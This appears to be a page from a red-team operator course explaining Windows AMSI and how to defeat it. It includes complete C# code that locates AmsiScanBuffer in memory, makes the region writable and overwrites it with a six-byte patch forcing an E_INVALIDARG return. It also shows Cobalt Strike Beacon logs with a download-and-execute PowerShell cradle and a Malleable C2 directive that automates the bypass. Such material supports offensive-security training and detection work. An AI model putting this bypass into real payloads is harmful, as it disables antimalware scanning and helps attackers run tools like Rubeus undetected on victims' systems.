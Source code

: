 [AmsiScanBuffer](https://docs.microsoft.com/en-us/windows/win32/api/amsi/nf-amsi-amsiscanbuffer) is an API exported from `amsi.dll` - the library that implements the Antimalware Scan Interface (AMSI). Applications, such as PowerShell, will load `amsi.dll` , which you can see in tools such as Process Hacker.

![](https://rto-assets.s3.eu-west-2.amazonaws.com/amsi/amsi-dll.png)

When you type a cmdlet into the PowerShell console or run a script, it will pass the content to AmsiScanBuffer to determine whether or not it's malicious before executing the code. You can validate this behaviour quite easily with [API Monitor](http://www.rohitab.com/).

![](https://rto-assets.s3.eu-west-2.amazonaws.com/amsi/api-monitor.png)


Of course, if the content is deemed malicious, it won't run.

AMSI is integrated into lots of Windows technologies including PowerShell, .NET, the Windows Script Host (`wscript.exe` / `cscript.exe`), JavaScript, VBScript and VBA. This can do a pretty effective job at killing some of Beacon's post-ex commands, including `powershell`, `powerpick`, `psinject` and `execute-assembly`.

```
beacon> run hostname
dc-2

beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
[*] Tasked beacon to import: C:\Tools\PowerSploit\Recon\PowerView.ps1

beacon> powerpick Get-Domain
[*] Tasked beacon to run: Get-Domain (unmanaged)

ERROR: IEX : At line:1 char:1
ERROR: + $s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAA ...
ERROR: + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
ERROR: This script contains malicious content and has been blocked by your antivirus software.
ERROR: At line:1 char:1
ERROR: + IEX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:61949 ...
ERROR: + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
ERROR:     + CategoryInfo          : ParserError: (:) [Invoke-Expression], ParseException
ERROR:     + FullyQualifiedErrorId : ScriptContainedMaliciousContent,Microsoft.PowerShell.Commands.Invoke 
ERROR:    ExpressionCommand
ERROR:  

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe triage
[-] Failed to load the assembly w/hr 0x8007000b
```

Let's dig into how AMSI works a bit more. Since it's designed to be implemented by third party applications, we can write a program that will submit samples for scanning.

```csharp
using System;
using System.Runtime.InteropServices;
using System.Text;

namespace ConsoleApp
{
    class Program
    {
        static IntPtr _amsiContext;
        static IntPtr _amsiSession;

        static void Main(string[] args)
        {
            // Initialize the AMSI API.
            AmsiInitialize("Demo App", out _amsiContext);

            // Opens a session within which multiple scan requests can be correlated.
            AmsiOpenSession(_amsiContext, out _amsiSession);

            // Test sample
            var sample = Encoding.UTF8.GetBytes(@"X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*");

            // Send sample to AMSI
            var result = ScanBuffer(sample);

            Console.WriteLine($"Before patch: {result}");
        }

        static string ScanBuffer(byte[] sample)
        {
            AmsiScanBuffer(_amsiContext, sample, (uint)sample.Length, "Demo Sample", ref _amsiSession, out uint amsiResult);
            return amsiResult >= 32768 ? "AMSI_RESULT_DETECTED" : "AMSI_RESULT_NOT_DETECTED";
        }

        [DllImport("amsi.dll")]
        static extern uint AmsiInitialize(string appName, out IntPtr amsiContext);

        [DllImport("amsi.dll")]
        static extern uint AmsiOpenSession(IntPtr amsiContext, out IntPtr amsiSession);

        // The antimalware provider may return a result between 1 and 32767, inclusive, as an estimated risk level.
        // The larger the result, the riskier it is to continue with the content.
        // Any return result equal to or larger than 32768 is considered malware, and the content should be blocked.
        [DllImport("amsi.dll")]
        static extern uint AmsiScanBuffer(IntPtr amsiContext, byte[] buffer, uint length, string contentName, ref IntPtr amsiSession, out uint scanResult);
    }
}
```
  
This will return the result `AMSI_RESULT_DETECTED` (no surprise for the EICAR test file). This is great for strings, but what about entire programs? Swapping the EICAR string for the Rubeus assembly also returns `AMSI_RESULT_DETECTED`.

```
var sample = File.ReadAllBytes(@"C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe");
```

As we know, `amsi.dll` is loaded into our current process, and has the necessary exports for any application interact with. And because it's loaded into the memory space of a process **we control**, we can change its behaviour by overwriting instructions in memory.

  

![](https://rto-assets.s3.eu-west-2.amazonaws.com/amsi/exports.png)

  

We need to find the memory address of `AmsiScanBuffer` after `amsi.dll` has been loaded, which we can do with the `GetProcAddress` API.

```csharp
[DllImport("kernel32.dll")]
static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
```

Get a reference to the modules loaded within the current process and iterate over each one until we find `amsi.dll,` then grab its `BaseAddress`.

```csharp
var modules = Process.GetCurrentProcess().Modules;
var hAmsi = IntPtr.Zero;

foreach (ProcessModule module in modules)
{
    if (module.ModuleName.Equals("amsi.dll"))
    {
        hAmsi = module.BaseAddress;
        break;
    }
}

var asb = GetProcAddress(hAmsi, "AmsiScanBuffer");
```
  

`asb` will then contain a memory address, like`0x00007ff86ffa35e0`. Cross-reference that address in Process Hacker, and you'll see that address is within the main `RX` region of the DLL.

  

![](https://rto-assets.s3.eu-west-2.amazonaws.com/amsi/asb-region.png)

  

To write new data into this region, the memory permissions need to be changed to allow write access, for which we need the `VirtualProtect` API.

```
[DllImport("kernel32.dll")]
static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
```

But what can we actually overwrite the instructions with? Well, anything you want depending on how you want to modify the behaviour.

Here is one possible method:

If you analyse `amsi.dll` with a solution such as [IDA](https://hex-rays.com/ida-free/), you can see the execution flow of AmsiScanBuffer. Prior to scanning the provided buffer, it will check the parameters that have been supplied to the function - if everything is ok, execution will follow the "red" arrow. Otherwise, there are several branches that lead to a `mov eax, 0x80070057` instruction. This branch then "bypasses" the scanning branch before returning.

`0x80070057` is an [HRESULT](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-erref/705fb797-2175-4a90-b5a3-3918024b10b8) return code for `E_INVALIDARG`.

  

![](https://rto-assets.s3.eu-west-2.amazonaws.com/amsi/ida-invalidarg.png)

  

One thing we could do is force AmsiScanBuffer to just return a result of `E_INVALIDARG` without actually scanning the content.  So what we need are the CPU opcodes for:

```
mov eax, 0x80070057
ret
```

[This](https://defuse.ca/online-x86-assembler.htm) online x86/x64 assembler is useful for converting assembly to hex.

Make the memory region of `asb` writable, use `Marshal.Copy()` to write then new instructions, and then restore the region back to the original permissions.

```csharp
var patch = new byte[] { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };

// Make region writable (0x40 == PAGE_EXECUTE_READWRITE)
VirtualProtect(asb, (UIntPtr)patch.Length, 0x40, out uint oldProtect);

// Copy patch into asb region
Marshal.Copy(patch, 0, asb, patch.Length);

// Restore asb memory permissions
VirtualProtect(asb, (UIntPtr)patch.Length, oldProtect, out uint _);

// Scan same sample again
result = ScanBuffer(sample);

Console.WriteLine($"After patch: {result}");
```

  

When the same content is scanned a second time, it comes back clean.

```
Before patch: AMSI_RESULT_DETECTED
After patch: AMSI_RESULT_NOT_DETECTED
```

This is great, but how can we integrate it into Cobalt Strike's workflow? There's actually a Malleable C2 directive called `amsi_disable` that will automate all this for us!

The **Malleable Command & Control** section goes into more depth on specifically what Malleable C2 is and how to customise it. To enable the `amsi_disable` directive, add the following to your profile:

```
post-ex {
    set amsi_disable "true";
}
```

This will tell Beacon to patch the AmsiScanBuffer function for `powerpick`, `execute-assembly` and `psinject` commands.

```
beacon> run hostname
dc-2

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe triage

Action: Triage Kerberos Tickets (All Users)

[*] Current LUID    : 0x3e3735
[...snip...]
```

Knowing how to bypass AMSI manually is still useful in cases where you need to deploy your own payloads outside of Cobalt Strike and other C2 frameworks (for example, initial compromise payloads).